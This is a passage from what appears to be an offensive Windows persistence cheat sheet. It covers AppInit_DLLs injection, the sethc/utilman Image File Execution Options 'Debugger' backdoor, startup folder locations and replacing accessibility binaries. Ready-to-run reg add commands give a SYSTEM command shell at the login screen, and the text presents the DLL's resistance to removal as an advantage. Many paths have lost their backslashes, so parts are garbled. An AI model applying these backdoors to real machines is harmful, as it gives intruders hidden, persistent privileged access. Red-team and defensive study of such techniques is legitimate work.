 #### AppInit_DLLs

Load custom DLLs each time a program runs (If it loads USER32.dll). This is checked by most AV!

This value corresponds to files being loaded through the AppInit_DLLs Registry value. The AppInit_DLLs registry value contains a list of dlls that will be loaded when user32.dll is loaded. As most Windows executables use the user32.dll, that means that any DLL that is listed in the AppInit_DLLs registry key will be loaded also. This makes it very difficult to remove the DLL as it will be loaded within multiple processes, some of which can not be stopped without causing system instability. The user32.dll file is also used by processes that are automatically started by the system when you log on. This means that the files loaded in the AppInit_DLLs value will be loaded very early in the Windows startup routine allowing the DLL to hide itself or protect itself before we have access to the system.

    HKLMSOFTWAREMicrosoftWindowsCurrentVersionWindowsAppInit_DLLs

#### No-reboot sethc/utilman option using a "debugger" key

Navigate to HKLMSoftwareMicrosoftWindows NTCurrentVersionImage File Execution Options  
Make key called "sethc.exe"  
Make a REG_SQ value called "Debugger"  
Assign it "c:windowssystem32cmd.exe" as the value  
Hit SHIFT 5 times and get a shell as nt authoritysystem

    reg add "\hostnameHKLMSoftwareMicrosoftWindows NTCurrentVersionImage File Execution Optionssethc.exe" /v Debugger /t REG_SZ /d "c:windowssystem32cmd.exe"
    reg add "\hostnameHKLMSoftwareMicrosoftWindows NTCurrentVersionImage File Execution Optionsutilman.exe" /v Debugger /t REG_SZ /d "c:windowssystem32cmd.exe"

Remove the debugger key

    reg delete "\hostnameHKLMSoftwareMicrosoftWindows NTCurrentVersionImage File Execution Optionssethc.exe" /f
    reg delete "\hostnameHKLMSoftwareMicrosoftWindows NTCurrentVersionImage File Execution Optionsutilman.exe" /f

### File Storage Locations

#### Startup Folders

    #All Users - Windows XP
    C:Documents and SettingsAll UsersStart MenuProgramsStartup

    #All Users - Windows Vista+
    C:ProgramDataMicrosoftWindowsStart MenuProgramsStartup

    #User Profile - Windows XP
    C:Documents and Settings\Start MenuProgramsStartup

    #User Profile - Windows Vista+
    C:Users\AppDataRoamingMicrosoftWindowsStart MenuProgramsStartup

#### SETHC/UTILMAN Replacement

Replace these binaries, may require a reboot to take effect
